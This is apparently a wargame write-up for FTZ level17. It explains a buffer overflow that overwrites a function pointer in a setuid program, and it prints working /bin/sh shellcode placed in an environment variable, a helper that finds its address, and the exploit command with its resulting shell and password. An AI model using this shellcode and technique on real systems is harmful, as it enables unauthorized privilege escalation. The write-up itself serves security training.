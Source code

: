 # Level17

## This level's goal
- Function pointer modulation with the shell code

***

```
[level17@ftz level17]$ ls -l
-rwsr-x---    1 level18  level17     13853 Mar  8  2003 attackme
-rw-r-----    1 root     level17       191 Mar  8  2003 hint

[level17@ftz level17]$ cat hint

#include <stdio.h>

void printit() {
  printf("Hello there!\n");
}

main()
{ 
  int crap;
  void (*call)()=printit;
  char buf[20];
  fgets(buf,48,stdin);
  setreuid(3098,3098);
  call();
}
```

The hint seems almost same as level15 and level16, but I need to change printit() to egg shell code to exploit this level.

In level15 and level16, we could understand the memory size.

buf(20bytes) + dummy(20bytes) + \*printit(4bytes,0xbffff048) + crap(4bytes,0xbffff04c) + dummy(8bytes) + SPF(4bytes) + RET(4bytes).

I will make egg.c(shell code) and getegg.c(to get shell code address).

```
[level17@ftz level17]$ export EGG=`python -c 'print "\x90"*15+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

[level17@ftz tmp]$ cat getegg.c
#include <stdlib.h>
main() {
        printf("EGG : %p", getenv("EGG"));
}

[level17@ftz tmp]$ gcc getegg.c -o getegg
[level17@ftz tmp]$ ./getegg
EGG : 0xbffffc8e
```

The shell code address is 0xbffffc8e, so the attack code will be 40bytes dummy strings + shell code's address(0xbffffc8e).

```
[level17@ftz level17]$ (python -c 'print "A"*40+"\x8e\xfc\xff\xbf"'; cat) | ./attackme

id
uid=3098(level18) gid=3097(level17) groups=3097(level17)

my-pass
Level18 Password is "why did you do it".
```
